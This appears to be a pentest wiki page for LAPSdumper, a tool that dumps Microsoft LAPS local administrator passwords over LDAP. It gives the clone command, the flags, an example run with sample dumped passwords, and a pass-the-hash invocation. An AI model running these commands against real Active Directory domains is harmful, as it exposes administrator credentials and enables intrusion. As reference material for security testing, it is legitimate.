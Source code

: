 ```yaml
---
title : "LAPSdumper"
# pre : ' '
description : "Dump LAPS Passwords."
date : 2020-12-21T14:32:07+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## LAPSdumper

Dump LAPS (Microsoft Local Administrator Password Solution) Passwords.

### Installation

```plain
git clone https://github.com/n00py/LAPSDumper
```

### Usage

```plain
laps.py [-h] -u USERNAME -p PASSWORD [-l LDAPSERVER] -d DOMAIN
```

### Flags

```plain
optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        username for LDAP
  -p PASSWORD, --password PASSWORD
                        password for LDAP (or LM:NT hash)
  -l LDAPSERVER, --ldapserver LDAPSERVER
                        LDAP server (or domain)
  -d DOMAIN, --domain DOMAIN
                        Domain
```

### Examples

```plain
$ python3 laps.py -u user -p password -d domain.local

COMPUTER01$:B#g4%aI$K!yZ)q}
COMPUTER02$:n-6pW-n8L!o8Of]
COMPUTER03$:u2Oc9z&{R)fHA2J
COMPUTER04$:Rwb2#4,{@N4Y19v
COMPUTER05$:17aZ,+1L5L((D0F
COMPUTER06$:DNX&@e.8XTQhyPj
COMPUTER07$:U3ZXf0vX!Xm1P89
COMPUTER08$:.6IvTd7-85ytJeF
COMPUTER09$:P2(VSN4%49!%fI8
```

#### Pass-the-Hash specific LDAP server

```plain
python3 laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```

### URL list

* [GitHub.com - LAPSDumper](https://github.com/n00py/LAPSDumper)
* [n00py.io - Dumping LAPS passwords from Linux](https://www.n00py.io/2020/12/dumping-laps-passwords-from-linux/)
* [ADSecurity.org - Microsoft Local Administrator Password Solution (LAPS)](https://adsecurity.org/?p=1790)
* [ADSecurity.org - Microsoft LAPS Security & Active Directory LAPS Configuration Recon](https://adsecurity.org/?p=3164)
